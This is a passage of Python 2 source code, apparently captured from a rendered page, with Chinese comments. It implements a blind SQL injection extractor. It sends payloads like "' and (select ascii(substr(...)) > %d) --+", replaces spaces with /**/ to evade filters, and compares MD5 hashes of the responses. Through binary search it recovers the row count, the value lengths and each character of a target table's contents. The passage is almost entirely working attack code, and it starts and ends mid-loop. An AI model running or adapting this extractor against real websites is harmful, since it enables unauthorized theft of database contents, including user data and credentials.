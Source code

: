         if standard_md5 == mid_md5_html:
            low = mid + 1
        else:
            high = mid-1

        column_value_num = (low+high+1)/2
    print "The %s table with %d row value: " % (table_name,column_value_num)
    stri = ""
    for x in xrange(0,len_column_name):#输出title
        stri += "%s\t" % column_name[x]
    print stri
    for index in xrange(0,column_value_num):  #一次循环输出一行数据
        for y in xrange(0,len_column_name):  #一次输出一行的一列的值,循环完输出一行的值
            low = 1
            high = 30
            # print "len_column_name:%s" % column_name[y]
            while low <= high:  #循环结束后得到一行数据的一列值的长度
                mid = (low + high)/2

                payload = "' and (length((select %s from %s.%s limit %d,1)) > %d)--+" % (column_name[y],db_name,table_name,index,mid)
                # print payload
                payload = "/**/".join(payload.split())
                mid_url = url + payload
                mid_md5_html = get_md5_html(mid_url)

                if standard_md5 == mid_md5_html:
                    low = mid + 1
                else:
                    high = mid-1

                column_value_len = (low+high+1)/2
            # print "column value length is: %d" % column_value_len
            # print "\tcolumn name is: ",
            for x in xrange(1,column_value_len+1): #得到一行数据的一列的值
                low = 32
                high = 126
                while low <= high: #得到一行数据的一列值的单个字符ASCII码
                    mid = (low + high)/2
                    payload = "' and (select ascii(substr((select %s from %s.%s limit %d,1), %d, 1)) > %d) --+" % (column_name[y],db_name,table_name,index,x,mid)
                    # print payload
                    payload = "/**/".join(payload.split())
                    mid_url = url + payload
                    mid_md5_html = get_md5_html(mid_url)
